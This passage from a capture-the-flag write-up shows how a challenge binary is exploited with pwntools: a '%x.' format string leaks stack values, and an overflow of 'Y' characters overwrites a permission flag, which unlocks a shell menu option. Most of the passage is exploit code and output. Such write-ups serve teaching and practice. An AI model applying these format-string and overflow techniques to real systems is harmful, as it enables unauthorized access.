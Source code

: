 Looks like those repeating characters are our format string buffer. There is one segment in this format string that is interesting:

```python 
# b77a3ac0.59.4e.59.b77a38a0.b77a3000.b77a3ac0.
>>> from pwn import *
>>> for item in 'b77a3ac0.59.4e.59.b77a38a0.b77a3000.b77a3ac0.'.split('.'):
        unhex(item)

'\xb7z:\xc0'
'Y'
'N'
'Y'
'\xb7z8\xa0'
'\xb7z0\x00'
'\xb7z:\xc0'
```

The `Y, N, Y` looks very similar to the `Y, N, Y` of the dialog shown from the command menu. Can we try and write a buffer over the `Y, N, Y` so that it becomes `Y, Y, Y`? Let's grab where in the format string the `4e` is in order to know how much to overflow.

```python
# Update Session name command
r.sendline('3')

# Send format string
shellcode = '%x.' * 70

# Wipe the input buffer so we aren't reading old data
r.clean()

r.sendline(shellcode)
r.recvuntil("SESSION: ")

# Grab the format string output
session_name = r.recvuntil('\n').split('.')

# Isolate the 'N' (0x4e) in our format string
n_index = session_name.index('4e')
log.info("Report 'N' at offset {}".format(n_index))

```

After a few tries of different lengths, we succeed in overwriting the `N` with a `Y`.

```python
n_index = session_name.index('4e')
# Resend a buffer of 'Y's up to the location of the 'N'
r.sendline('3')
r.sendline('Y' * (4*(n_index-2) + 1) )
```

```
SESSION: YYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYY
  AUTH   [Y]    REPORT [Y]    MENU   [Y]  
  --------------------------------------------------------------


  1  - CREATE REPORT
  2  - VIEW CODE REPOSITORY
  3  - UPDATE SESSION NAME
  4  - SHELL
  5  - LOG OFF

  ENTER COMMAND: $  
```